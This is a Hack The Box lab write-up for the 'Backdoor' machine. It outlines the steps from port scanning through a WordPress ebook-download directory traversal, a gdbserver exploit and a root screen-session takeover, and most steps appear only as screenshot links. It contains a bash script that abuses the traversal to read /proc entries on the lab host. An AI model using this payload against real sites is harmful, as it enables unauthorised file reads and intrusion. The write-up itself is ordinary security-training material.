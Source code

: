 ![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Backdoor/screenshots/backdoor%20loga.png)

# nmap
## nmap all ports
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Backdoor/screenshots/nmap%20all%20ports.png)

## nmap services and versions
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Backdoor/screenshots/nmap%20versions%20and%20services.png)

# gobuster
## gobuster main
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Backdoor/screenshots/gobuster%20main.png)

## gobuster main/wp-content
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Backdoor/screenshots/gobuster%20wp-content.png)

## wp-content/plugins
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Backdoor/screenshots/main-wp-contnent-plugins.png)

# searchsploit
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Backdoor/screenshots/searchsploit%20wordpress%20ebook.png)

## ebook poc directory traversal
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Backdoor/screenshots/wordpress%20ebook%20directory%20traversal.png)
## wordpress ebook directory traversal
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Backdoor/screenshots/wp-config.php.png)

## find out process id of port 1337
## test for process id 1 request
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Backdoor/screenshots/burp%20request%20process%20id.png)

## response succesfull
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Backdoor/screenshots/burp%20response%20process%20id.png)

## bash script for enumerating process IDs
````bash

#!/bin/bash


for pid in $(curl -s 'http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../../../../../proc/sched_debug' --output - | awk '{print $3}' | grep -oP "\d{1,6}" | sort -u); do 
    
    content=$(timeout 1 bash -c "curl -s "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../../../../../proc/$pid/cmdline"" --output - | awk -F 'cmdline' '{print $4}' | awk -F '<script>' '{print $1}' | tr -d "\0" &)

	if test $content; then
		echo "[*] PID $pid: " | tr -d "\n" 
		echo $content
	fi

done

`````

## snippet of PIDs
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Backdoor/screenshots/gdbserver%20PID%20990.png)


## searchsploit gdbserver
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Backdoor/screenshots/searchsploit%20gdbserver.png)

## shell as user
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Backdoor/screenshots/shell%20as%20user.png)

# linpeas
## screen session is running as root
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Backdoor/screenshots/linpeas%20screen%20session.png)

## screen -dmS root
## start screen session in detached mode as root

## attach root screen session
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Backdoor/screenshots/screen%20attach%20session%20%20as%20root.png)
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Backdoor/screenshots/screen%20root.png)

# shell as root
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Backdoor/screenshots/shell%20root.txt.png)
XXXXXXXxx